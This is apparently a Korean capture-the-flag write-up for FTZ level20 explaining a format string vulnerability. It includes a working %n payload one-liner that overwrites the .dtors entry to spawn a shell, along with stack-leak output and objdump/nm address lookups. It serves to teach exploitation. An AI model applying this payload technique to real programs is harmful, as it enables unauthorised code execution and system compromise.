 ```
[level20@ftz level20]$ ./attackme 
%X
4F
```

다음과 같이 포맷스트링 취약점이 발생하는 것을 확인할 수 있다.

```
AAAA%08X %08X %08X %08X
AAAA0000004F 4212ECC0 4207A750 41414141
```

입력 값까지 0xC 만큼의 크기가 존재한다. 디버거를 이용해 확인하면 더미 크기를 확인할 수 있고, 스택은 다음과 같이 구성된다.

```
0x0000004f | 0x4212ECC0 | 0x4207A750 | bleh[80] | dummy[8] | SFP, RET |
```

그럼 이제 `%n` 포맷스트링을 이용하여 원하는 주소를 쓰면 된다.

```
(python -c 'print "AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08"+"%8x%8x%8x"+"%64616c%n%50031c%n"';cat)|./attackme
```

일단 위의 명령으로 쉘을 획득할 수 있다.
천천히 하나씩 공부해보자.

### Format String Bug

포맷스트링 공격을 하기 위해 여러가지 조건이있다. 당연히 포맷 스트링 취약점이 존재해야 한다. 또한 `.dtors` 섹션 정보가 필요하다. `.ctors` 는 main 함수 전에, `.dtors`는 main 함수 종료 후에 실행되는데, 이는 쉽게 생각하여 생성자와 소멸자를 생각하면 된다.

```
[level20@ftz level20]$ objdump -h ./attackme |grep dtors
 18 .dtors        00000008  08049594  08049594  00000594  2**2
```

```
[level20@ftz tmp]$ nm ./attackme |grep DTOR
08049598 d __DTOR_END__
08049594 d __DTOR_LIST__
```

메인 함수가 종료될 때 호출되는 `__DTOR_END__` 에 쉘 코드를 써야 하므로, `objdump`로 확인한 주소에 4바이트 뒤를 이용한다.(`0x8049598`)

```
"AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08"+"%8x%8x%8x"+"%64616c%n%50031c%n"'

dummy[4] + [__DTOR_END__] + dummy[4] + [__DTOR_END__ + 2bytes] + "%8x%8x%8x"+"%64616c%n%50031c%n"
```

`%n` 은 앞에 지정된 변수에 `%n` 전까지 출력된 문자의 개수를 10진수 형식으로 저장한다.

```c++
int num;
printf("Hello%n\n",&num);
printf("%d\n",num);
```
